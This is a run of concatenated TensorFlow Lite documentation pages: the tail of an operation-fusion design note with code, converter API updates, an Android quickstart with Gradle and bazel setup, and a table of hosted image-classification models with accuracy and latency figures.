      rets = inplace_ops.empty([num] + emb_shape_suf, py_utils.FPropDtype(p))

      def EmbFpropLoop(i, embs, ids_vec, rets):
        # row_id = ids_vec[i]
        row_id = tf.gather(ids_vec, i)
        # row = embs[row_id]
        row = tf.reshape(tf.gather(embs, row_id), [1] + emb_shape_suf)
        # rets[i] = row
        rets = inplace_ops.alias_inplace_update(rets, [i], row)
        return embs, ids_vec, rets

      _, _, rets = functional_ops.For(
          start=0,
          limit=num,
          delta=1,
          inputs=[embs, ids_vec, rets],
          body=EmbFpropLoop,
          rewrite_with_while=compiled)
      if len(weight_shape) > 2:
        rets = tf.reshape(rets, [num, symbolic.ToStatic(p.embedding_dim)])
      return rets
```

By making models use composite operations via `tf.function` as illustrated
above, it becomes possible to build a general infrastructure to **identify and
convert** such operations to fused TensorFlow Lite operations.

### Extending the TensorFlow Lite converter

The TensorFlow Lite converter that was released earlier this year only supported
importing TensorFlow models as a graph with all variables replaced with their
corresponding constant values. This does not work for operation fusion since
such graphs have all functions inlined so that the variables can be turned into
constants.

In order to leverage the `tf.function` with the `experimental_implements`
feature during the conversion process, the functions need to be preserved until
later in the conversion process.

As such, we implemented a new workflow of importing and converting TensorFlow
models in the converter to support the composite operation fusion use case.
Specifically, the new features added are:

1.  Importing TensorFlow
    [saved models into MLIR](https://github.com/tensorflow/tensorflow/blob/1099faa8d6a941ef44d09ed8c372ff0ffda94112/tensorflow/compiler/mlir/tensorflow/translate/import_model.cc#L3748)
1.  [fuse composite operations](https://github.com/tensorflow/tensorflow/blob/1099faa8d6a941ef44d09ed8c372ff0ffda94112/tensorflow/compiler/mlir/lite/transforms/prepare_composite_functions_tf.cc#L103)
1.  [variable mutability analysis](https://github.com/tensorflow/tensorflow/blob/1099faa8d6a941ef44d09ed8c372ff0ffda94112/tensorflow/compiler/mlir/tensorflow/transforms/optimize_global_tensors.cc#L43)
1.  [freeze all read-only variables](https://github.com/tensorflow/tensorflow/blob/1099faa8d6a941ef44d09ed8c372ff0ffda94112/tensorflow/compiler/mlir/tensorflow/transforms/freeze_global_tensors.cc#L44)

This allows us to perform operation fusion using the functions representing the
composite operations prior to function inlining and variable freezing.

### Implementing operation fusion

Let’s look at the operation fusion pass in more detail. This pass does the
following:

1.  Loop through all functions in the MLIR module.
1.  If a function has the tf.\_implements attribute, based on the attribute
    value, calls the appropriate operation fusion utility.
1.  The operation fusion utility operates on the function’s operands and
    attributes (which serve as the interface for the conversion) and replaces
    the body of the function with an equivalent function body containing the
    fused operation.
1.  In many cases, the replaced body will contain operations other than the
    fused operation. These correspond to some static transforms on the
    function’s operands in order to obtain the operands of the fused operation.
    Since these computations can all be constant folded away, they would not be
    present in the exported flatbuffer where only the fused operation would
    exist.

Here is code snippet from the pass showing the main workflow:

```
void PrepareCompositeFunctionsPass::ConvertTFImplements(FuncOp func,
                                                        StringAttr attr) {
  if (attr.getValue() == "embedding_lookup") {
    func.eraseBody();
    func.addEntryBlock();
    // Convert the composite embedding_lookup function body to a
    // TFLite fused embedding_lookup op.
    ConvertEmbeddedLookupFunc convert_embedded_lookup(func);
    if (failed(convert_embedded_lookup.VerifySignature())) {
      return signalPassFailure();
    }
    convert_embedded_lookup.RewriteFunc();
  } else if (attr.getValue() == mlir::TFL::kKerasLstm) {
     func.eraseBody();
     func.addEntryBlock();
     OpBuilder builder(func.getBody());
     if (failed(ConvertKerasLSTMLayer(func, &builder))) {
       return signalPassFailure();
     }
  } else if (.....) /* Other fusions can plug in here */
}
```

Here is code snippet showing mapping this composite operation to a fused
operation in TensorFlow Lite leveraging the function as a conversion interface.

<a id="fusion_code"></a>

```C++
void RewriteFunc() {
    Value lookup = func_.getArgument(1);
    Value value = func_.getArgument(0);
    auto output_type = func_.getType().getResult(0);

    OpBuilder builder(func_.getBody());
    auto op = builder.create<mlir::TFL::EmbeddingLookupOp>(
        func_.getLoc(), output_type, lookup, value);

    builder.create<mlir::ReturnOp>(func_.getLoc(), op.getResult());
  }
```
# API Updates <a name="api_updates"></a>

This page provides information about updates made to the
`tf.lite.TFLiteConverter` [Python API](index.md) in TensorFlow 2.x.

Note: If any of the changes raise concerns, please file a
[GitHub issue](https://github.com/tensorflow/tensorflow/issues/new?template=60-tflite-converter-issue.md).

*   TensorFlow 2.3

    *   Support integer (previously, only float) input/output type for integer
        quantized models using the new `inference_input_type` and
        `inference_output_type` attributes. Refer to this
        [example usage](../performance/post_training_quantization.md#integer_only).
    *   Support conversion and resizing of models with dynamic dimensions.
    *   Added a new experimental quantization mode with 16-bit activations and
        8-bit weights.

*   TensorFlow 2.2

    *   By default, leverage [MLIR-based conversion](https://mlir.llvm.org/),
        Google's cutting edge compiler technology for machine learning. This
        enables conversion of new classes of models, including Mask R-CNN,
        Mobile BERT, etc and supports models with functional control flow.

*   TensorFlow 2.0 vs TensorFlow 1.x

    *   Renamed the `target_ops` attribute to `target_spec.supported_ops`
    *   Removed the following attributes:
        *   _quantization_: `inference_type`, `quantized_input_stats`,
            `post_training_quantize`, `default_ranges_stats`,
            `reorder_across_fake_quant`, `change_concat_input_ranges`,
            `get_input_arrays()`. Instead,
            [quantize aware training](https://www.tensorflow.org/model_optimization/guide/quantization/training)
            is supported through the `tf.keras` API and
            [post training quantization](../performance/post_training_quantization.md)
            uses fewer attributes.
        *   _visualization_: `output_format`, `dump_graphviz_dir`,
            `dump_graphviz_video`. Instead, the recommended approach for
            visualizing a TensorFlow Lite model is to use
            [visualize.py](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/tools/visualize.py).
        *   _frozen graphs_: `drop_control_dependency`, as frozen graphs are
            unsupported in TensorFlow 2.x.
    *   Removed other converter APIs such as `tf.lite.toco_convert` and
        `tf.lite.TocoConverter`
    *   Removed other related APIs such as `tf.lite.OpHint` and
        `tf.lite.constants` (the `tf.lite.constants.*` types have been mapped to
        `tf.*` TensorFlow data types, to reduce duplication)
# Android quickstart

To get started with TensorFlow Lite on Android, we recommend exploring the
following example.

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/android">Android
image classification example</a>

Read
[TensorFlow Lite Android image classification](https://github.com/tensorflow/examples/blob/master/lite/examples/image_classification/android/EXPLORE_THE_CODE.md)
for an explanation of the source code.

This example app uses
[image classification](https://www.tensorflow.org/lite/models/image_classification/overview)
to continuously classify whatever it sees from the device's rear-facing camera.
The application can run either on device or emulator.

Inference is performed using the TensorFlow Lite Java API and the
[TensorFlow Lite Android Support Library](../inference_with_metadata/lite_support.md).
The demo app classifies frames in real-time, displaying the top most probable
classifications. It allows the user to choose between a floating point or
[quantized](https://www.tensorflow.org/lite/performance/post_training_quantization)
model, select the thread count, and decide whether to run on CPU, GPU, or via
[NNAPI](https://developer.android.com/ndk/guides/neuralnetworks).

Note: Additional Android applications demonstrating TensorFlow Lite in a variety
of use cases are available in
[Examples](https://www.tensorflow.org/lite/examples).

## Build in Android Studio

To build the example in Android Studio, follow the instructions in
[README.md](https://github.com/tensorflow/examples/blob/master/lite/examples/image_classification/android/README.md).

## Create your own Android app

To get started quickly writing your own Android code, we recommend using our
[Android image classification example](https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/android)
as a starting point.

The following sections contain some useful information for working with
TensorFlow Lite on Android.

### Use Android Studio ML Model Binding

Note: Required [Android Studio 4.1](https://developer.android.com/studio) or
above

To import a TensorFlow Lite (TFLite) model:

1.  Right-click on the module you would like to use the TFLite model or click on
    `File`, then `New` > `Other` > `TensorFlow Lite Model`
    

1.  Select the location of your TFLite file. Note that the tooling will
    configure the module's dependency on your behalf with ML Model binding and
    all dependencies automatically inserted into your Android module's
    `build.gradle` file.

    Optional: Select the second checkbox for importing TensorFlow GPU if you
    want to use [GPU acceleration](../performance/gpu).
    

1.  Click `Finish`.

1.  The following screen will appear after the import is successful. To start
    using the model, select Kotlin or Java, copy and paste the code under the
    `Sample Code` section. You can get back to this screen by double clicking
    the TFLite model under the `ml` directory in Android Studio.
    

### Use the TensorFlow Lite Task Library

TensorFlow Lite Task Library contains a set of powerful and easy-to-use
task-specific libraries for app developers to create ML experiences with TFLite.
It provides optimized out-of-box model interfaces for popular machine learning
tasks, such as image classification, question and answer, etc. The model
interfaces are specifically designed for each task to achieve the best
performance and usability. Task Library works cross-platform and is supported on
Java, C++, and Swift (coming soon).

To use the Task Library in your Android app, we recommend using the AAR hosted
at MavenCentral for
[Task Vision library](https://search.maven.org/artifact/org.tensorflow/tensorflow-lite-task-vision)
and
[Task Text library](https://search.maven.org/artifact/org.tensorflow/tensorflow-lite-task-text)
, respectively.

You can specify this in your `build.gradle` dependencies as follows:

```build
dependencies {
    implementation 'org.tensorflow:tensorflow-lite-task-vision:0.3.0'
    implementation 'org.tensorflow:tensorflow-lite-task-text:0.3.0'
    implementation 'org.tensorflow:tensorflow-lite-task-audio:0.3.0'
}
```

To use nightly snapshots, make sure that you have added
[Sonatype snapshot repository](./build_android#use_nightly_snapshots).

See the introduction in the
[TensorFlow Lite Task Library overview](../inference_with_metadata/task_library/overview.md)
for more details.

### Use the TensorFlow Lite Android Support Library

The TensorFlow Lite Android Support Library makes it easier to integrate models
into your application. It provides high-level APIs that help transform raw input
data into the form required by the model, and interpret the model's output,
reducing the amount of boilerplate code required.

It supports common data formats for inputs and outputs, including images and
arrays. It also provides pre- and post-processing units that perform tasks such
as image resizing and cropping.

To use the Support Library in your Android app, we recommend using the
[TensorFlow Lite Support Library AAR hosted at MavenCentral](https://search.maven.org/artifact/org.tensorflow/tensorflow-lite-support).

You can specify this in your `build.gradle` dependencies as follows:

```build
dependencies {
    implementation 'org.tensorflow:tensorflow-lite-support:0.3.0'
}
```

To use nightly snapshots, make sure that you have added
[Sonatype snapshot repository](./build_android#use_nightly_snapshots).

To get started, follow the instructions in the
[TensorFlow Lite Android Support Library](../inference_with_metadata/lite_support.md).

### Use the TensorFlow Lite AAR from MavenCentral

To use TensorFlow Lite in your Android app, we recommend using the
[TensorFlow Lite AAR hosted at MavenCentral](https://search.maven.org/artifact/org.tensorflow/tensorflow-lite).

You can specify this in your `build.gradle` dependencies as follows:

```build
dependencies {
    implementation 'org.tensorflow:tensorflow-lite:0.0.0-nightly-SNAPSHOT'
}
```

To use nightly snapshots, make sure that you have added
[Sonatype snapshot repository](./build_android#use_nightly_snapshots).

This AAR includes binaries for all of the
[Android ABIs](https://developer.android.com/ndk/guides/abis). You can reduce
the size of your application's binary by only including the ABIs you need to
support.

We recommend most developers omit the `x86`, `x86_64`, and `arm32` ABIs. This
can be achieved with the following Gradle configuration, which specifically
includes only `armeabi-v7a` and `arm64-v8a`, which should cover most modern
Android devices.

```build
android {
    defaultConfig {
        ndk {
            abiFilters 'armeabi-v7a', 'arm64-v8a'
        }
    }
}
```

To learn more about `abiFilters`, see
[`NdkOptions`](https://google.github.io/android-gradle-dsl/current/com.android.build.gradle.internal.dsl.NdkOptions.html)
in the Android Gradle documentation.

## Build Android app using C++

There are two ways to use TFLite through C++ if you build your app with the NDK:

### Use TFLite C API

This is the *recommended* approach. Download the
[TensorFlow Lite AAR hosted at MavenCentral](https://search.maven.org/artifact/org.tensorflow/tensorflow/tensorflow-lite),
rename it to `tensorflow-lite-*.zip`, and unzip it. You must include the four
header files in `headers/tensorflow/lite/` and `headers/tensorflow/lite/c/`
folder and the relevant `libtensorflowlite_jni.so` dynamic library in `jni/`
folder in your NDK project.

The `c_api.h` header file contains basic documentation about using the TFLite C
API.

### Use TFLite C++ API

If you want to use TFLite through C++ API, you can build the C++ shared
libraries:

32bit armeabi-v7a:

```sh
bazel build -c opt --config=android_arm //tensorflow/lite:libtensorflowlite.so
```

64bit arm64-v8a:

```sh
bazel build -c opt --config=android_arm64 //tensorflow/lite:libtensorflowlite.so
```

Currently, there is no straightforward way to extract all header files needed,
so you must include all header files in `tensorflow/lite/` from the TensorFlow
repository. Additionally, you will need header files from
[FlatBuffers](https://github.com/google/flatbuffers) and
[Abseil](https://github.com/abseil/abseil-cpp).

## Min SDK version of TFLite

| Library                     | `minSdkVersion` | Device Requirements    |
| --------------------------- | --------------- | ---------------------- |
| tensorflow-lite             | 19              | NNAPI usage requires   |
:                             :                 : API 27+                :
| tensorflow-lite-gpu         | 19              | GLES 3.1 or OpenCL     |
:                             :                 : (typically only        :
:                             :                 : available on API 21+   :
| tensorflow-lite-hexagon     | 19              | -                      |
| tensorflow-lite-support     | 19              | -                      |
| tensorflow-lite-task-vision | 21              | android.graphics.Color |
:                             :                 : related API requires   :
:                             :                 : API 26+                :
| tensorflow-lite-task-text   | 21              | -                      |
| tensorflow-lite-task-audio  | 23              | -                      |
| tensorflow-lite-metadata    | 19              | -                      |
# Hosted models

The following is an incomplete list of pre-trained models optimized to work with
TensorFlow Lite.

To get started choosing a model, visit <a href="../models">Models</a> page with
end-to-end examples, or pick a
[TensorFlow Lite model from TensorFlow Hub](https://tfhub.dev/s?deployment-format=lite).

Note: The best model for a given application depends on your requirements. For
example, some applications might benefit from higher accuracy, while others
require a small model size. You should test your application with a variety of
models to find the optimal balance between size, performance, and accuracy.

## Image classification

For more information about image classification, see
<a href="../models/image_classification/overview.md">Image classification</a>.
Explore the TensorFlow Lite Task Library for instructions about
[how to integrate image classification models](../inference_with_metadata/task_library/image_classifier)
in just a few lines of code.

### Quantized models

<a href="../performance/post_training_quantization">Quantized</a> image
classification models offer the smallest model size and fastest performance, at
the expense of accuracy. The performance values are measured on Pixel 3 on
Android 10.

You can find many
[quantized models](https://tfhub.dev/s?deployment-format=lite&module-type=image-classification&q=quantized)
from TensorFlow Hub and get more model information there.

Model name                  | Paper and model                                                                                                                                                                   | Model size | Top-1 accuracy | Top-5 accuracy | CPU, 4 threads | NNAPI
--------------------------- | :-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------: | ---------: | -------------: | -------------: | -------------: | ----:
Mobilenet_V1_0.25_128_quant | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_0.25_128_quant.tgz) | 0.5 Mb     | 39.5%          | 64.4%          | 0.8 ms         | 2 ms
Mobilenet_V1_0.25_160_quant | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_0.25_160_quant.tgz) | 0.5 Mb     | 42.8%          | 68.1%          | 1.3 ms         | 2.4 ms
Mobilenet_V1_0.25_192_quant | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_0.25_192_quant.tgz) | 0.5 Mb     | 45.7%          | 70.8%          | 1.8 ms         | 2.6 ms
Mobilenet_V1_0.25_224_quant | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_0.25_224_quant.tgz) | 0.5 Mb     | 48.2%          | 72.8%          | 2.3 ms         | 2.9 ms
Mobilenet_V1_0.50_128_quant | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_0.5_128_quant.tgz)  | 1.4 Mb     | 54.9%          | 78.1%          | 1.7 ms         | 2.6 ms
Mobilenet_V1_0.50_160_quant | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_0.5_160_quant.tgz)  | 1.4 Mb     | 57.2%          | 80.5%          | 2.6 ms         | 2.9 ms
Mobilenet_V1_0.50_192_quant | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_0.5_192_quant.tgz)  | 1.4 Mb     | 59.9%          | 82.1%          | 3.6 ms         | 3.3 ms
Mobilenet_V1_0.50_224_quant | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_0.5_224_quant.tgz)  | 1.4 Mb     | 61.2%          | 83.2%          | 4.7 ms         | 3.6 ms
Mobilenet_V1_0.75_128_quant | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_0.75_128_quant.tgz) | 2.6 Mb     | 55.9%          | 79.1%          | 3.1 ms         | 3.2 ms
Mobilenet_V1_0.75_160_quant | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_0.75_160_quant.tgz) | 2.6 Mb     | 62.4%          | 83.7%          | 4.7 ms         | 3.8 ms
Mobilenet_V1_0.75_192_quant | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_0.75_192_quant.tgz) | 2.6 Mb     | 66.1%          | 86.2%          | 6.4 ms         | 4.2 ms
Mobilenet_V1_0.75_224_quant | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_0.75_224_quant.tgz) | 2.6 Mb     | 66.9%          | 86.9%          | 8.5 ms         | 4.8 ms
Mobilenet_V1_1.0_128_quant  | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_1.0_128_quant.tgz)  | 4.3 Mb     | 63.3%          | 84.1%          | 4.8 ms         | 3.8 ms
Mobilenet_V1_1.0_160_quant  | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_1.0_160_quant.tgz)  | 4.3 Mb     | 66.9%          | 86.7%          | 7.3 ms         | 4.6 ms
Mobilenet_V1_1.0_192_quant  | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_1.0_192_quant.tgz)  | 4.3 Mb     | 69.1%          | 88.1%          | 9.9 ms         | 5.2 ms
Mobilenet_V1_1.0_224_quant  | [paper](https://arxiv.org/pdf/1712.05877.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_08_02/mobilenet_v1_1.0_224_quant.tgz)  | 4.3 Mb     | 70.0%          | 89.0%          | 13 ms          | 6.0 ms
Mobilenet_V2_1.0_224_quant  | [paper](https://arxiv.org/abs/1806.08342), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/tflite_11_05_08/mobilenet_v2_1.0_224_quant.tgz)              | 3.4 Mb     | 70.8%          | 89.9%          | 12 ms          | 6.9 ms
Inception_V1_quant          | [paper](https://arxiv.org/abs/1409.4842), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/inception_v1_224_quant_20181026.tgz)                          | 6.4 Mb     | 70.1%          | 89.8%          | 39 ms          | 36 ms
Inception_V2_quant          | [paper](https://arxiv.org/abs/1512.00567), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/inception_v2_224_quant_20181026.tgz)                         | 11 Mb      | 73.5%          | 91.4%          | 59 ms          | 18 ms
Inception_V3_quant          | [paper](https://arxiv.org/abs/1806.08342),[tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/tflite_11_05_08/inception_v3_quant.tgz)                       | 23 Mb      | 77.5%          | 93.7%          | 148 ms         | 74 ms
Inception_V4_quant          | [paper](https://arxiv.org/abs/1602.07261), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/inception_v4_299_quant_20181026.tgz)                         | 41 Mb      | 79.5%          | 93.9%          | 268 ms         | 155 ms

Note: The model files include both TF Lite FlatBuffer and Tensorflow frozen
Graph.

Note: Performance numbers were benchmarked on Pixel-3 (Android 10). Accuracy
numbers were computed using the
[TFLite image classification evaluation tool](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/evaluation/tasks/imagenet_image_classification).

### Floating point models

Floating point models offer the best accuracy, at the expense of model size and
performance. <a href="../performance/gpu">GPU acceleration</a> requires the use
of floating point models. The performance values are measured on Pixel 3 on
Android 10.

You can find many
[image classification models](https://tfhub.dev/s?deployment-format=lite&module-type=image-classification)
from TensorFlow Hub and get more model information there.

Model name            | Paper and model                                                                                                                                                                           | Model size | Top-1 accuracy | Top-5 accuracy | CPU, 4 threads | GPU    | NNAPI
--------------------- | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------: | ---------: | -------------: | -------------: | -------------: | -----: | ----:
DenseNet              | [paper](https://arxiv.org/abs/1608.06993), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/densenet_2018_04_27.tgz)            | 43.6 Mb    | 64.2%          | 85.6%          | 195 ms         | 60 ms  | 1656 ms
SqueezeNet            | [paper](https://arxiv.org/abs/1602.07360), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/squeezenet_2018_04_27.tgz)          | 5.0 Mb     | 49.0%          | 72.9%          | 36 ms          | 9.5 ms | 18.5 ms
NASNet mobile         | [paper](https://arxiv.org/abs/1707.07012), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/nasnet_mobile_2018_04_27.tgz)       | 21.4 Mb    | 73.9%          | 91.5%          | 56 ms          | ---    | 102 ms
NASNet large          | [paper](https://arxiv.org/abs/1707.07012), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/nasnet_large_2018_04_27.tgz)        | 355.3 Mb   | 82.6%          | 96.1%          | 1170 ms        | ---    | 648 ms
ResNet_V2_101         | [paper](https://arxiv.org/abs/1603.05027), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/tflite_11_05_08/resnet_v2_101.tgz)                                   | 178.3 Mb   | 76.8%          | 93.6%          | 526 ms         | 92 ms  | 1572 ms
Inception_V3          | [paper](http://arxiv.org/abs/1512.00567), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/inception_v3_2018_04_27.tgz)         | 95.3 Mb    | 77.9%          | 93.8%          | 249 ms         | 56 ms  | 148 ms
Inception_V4          | [paper](http://arxiv.org/abs/1602.07261), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/inception_v4_2018_04_27.tgz)         | 170.7 Mb   | 80.1%          | 95.1%          | 486 ms         | 93 ms  | 291 ms
Inception_ResNet_V2   | [paper](https://arxiv.org/abs/1602.07261), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/tflite/model_zoo/upload_20180427/inception_resnet_v2_2018_04_27.tgz) | 121.0 Mb   | 77.5%          | 94.0%          | 422 ms         | 100 ms | 201 ms
Mobilenet_V1_0.25_128 | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_0.25_128.tgz)               | 1.9 Mb     | 41.4%          | 66.2%          | 1.2 ms         | 1.6 ms | 3 ms
Mobilenet_V1_0.25_160 | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_0.25_160.tgz)               | 1.9 Mb     | 45.4%          | 70.2%          | 1.7 ms         | 1.7 ms | 3.2 ms
Mobilenet_V1_0.25_192 | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_0.25_192.tgz)               | 1.9 Mb     | 47.1%          | 72.0%          | 2.4 ms         | 1.8 ms | 3.0 ms
Mobilenet_V1_0.25_224 | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_0.25_224.tgz)               | 1.9 Mb     | 49.7%          | 74.1%          | 3.3 ms         | 1.8 ms | 3.6 ms
Mobilenet_V1_0.50_128 | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_0.5_128.tgz)                | 5.3 Mb     | 56.2%          | 79.3%          | 3.0 ms         | 1.7 ms | 3.2 ms
Mobilenet_V1_0.50_160 | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_0.5_160.tgz)                | 5.3 Mb     | 59.0%          | 81.8%          | 4.4 ms         | 2.0 ms | 4.0 ms
Mobilenet_V1_0.50_192 | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_0.5_192.tgz)                | 5.3 Mb     | 61.7%          | 83.5%          | 6.0 ms         | 2.5 ms | 4.8 ms
Mobilenet_V1_0.50_224 | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_0.5_224.tgz)                | 5.3 Mb     | 63.2%          | 84.9%          | 7.9 ms         | 2.8 ms | 6.1 ms
Mobilenet_V1_0.75_128 | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_0.75_128.tgz)               | 10.3 Mb    | 62.0%          | 83.8%          | 5.5 ms         | 2.6 ms | 5.1 ms
Mobilenet_V1_0.75_160 | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_0.75_160.tgz)               | 10.3 Mb    | 65.2%          | 85.9%          | 8.2 ms         | 3.1 ms | 6.3 ms
Mobilenet_V1_0.75_192 | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_0.75_192.tgz)               | 10.3 Mb    | 67.1%          | 87.2%          | 11.0 ms        | 4.5 ms | 7.2 ms
Mobilenet_V1_0.75_224 | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_0.75_224.tgz)               | 10.3 Mb    | 68.3%          | 88.1%          | 14.6 ms        | 4.9 ms | 9.9 ms
Mobilenet_V1_1.0_128  | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_1.0_128.tgz)                | 16.9 Mb    | 65.2%          | 85.7%          | 9.0 ms         | 4.4 ms | 6.3 ms
Mobilenet_V1_1.0_160  | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_1.0_160.tgz)                | 16.9 Mb    | 68.0%          | 87.7%          | 13.4 ms        | 5.0 ms | 8.4 ms
Mobilenet_V1_1.0_192  | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_1.0_192.tgz)                | 16.9 Mb    | 69.9%          | 89.1%          | 18.1 ms        | 6.3 ms | 10.6 ms
Mobilenet_V1_1.0_224  | [paper](https://arxiv.org/pdf/1704.04861.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/mobilenet_v1_2018_02_22/mobilenet_v1_1.0_224.tgz)                | 16.9 Mb    | 71.0%          | 89.9%          | 24.0 ms        | 6.5 ms | 13.8 ms
Mobilenet_V2_1.0_224  | [paper](https://arxiv.org/pdf/1801.04381.pdf), [tflite&pb](https://storage.googleapis.com/download.tensorflow.org/models/tflite_11_05_08/mobilenet_v2_1.0_224.tgz)                        | 14.0 Mb    | 71.8%          | 90.6%          | 17.5 ms        | 6.2 ms | 11.23 ms

### AutoML mobile models

The following image classification models were created using
<a href="https://cloud.google.com/automl/">Cloud AutoML</a>. The performance
values are measured on Pixel 3 on Android 10.

You can find these models in
[TensorFlow Hub](https://tfhub.dev/s?deployment-format=lite&q=MnasNet) and get
more model information there.

Model Name       | Paper and model                                                                                                                                                | Model size | Top-1 accuracy | Top-5 accuracy | CPU, 4 threads | GPU     | NNAPI
---------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------: | ---------: | -------------: | -------------: | -------------: | ------: | ----:
MnasNet_0.50_224 | [paper](https://arxiv.org/abs/1807.11626), [tflite&pb](https://storage.cloud.google.com/download.tensorflow.org/models/tflite/mnasnet_0.5_224_09_07_2018.tgz)  | 8.5 Mb     | 68.03%         | 87.79%         | 9.5 ms         | 5.9 ms  | 16.6 ms
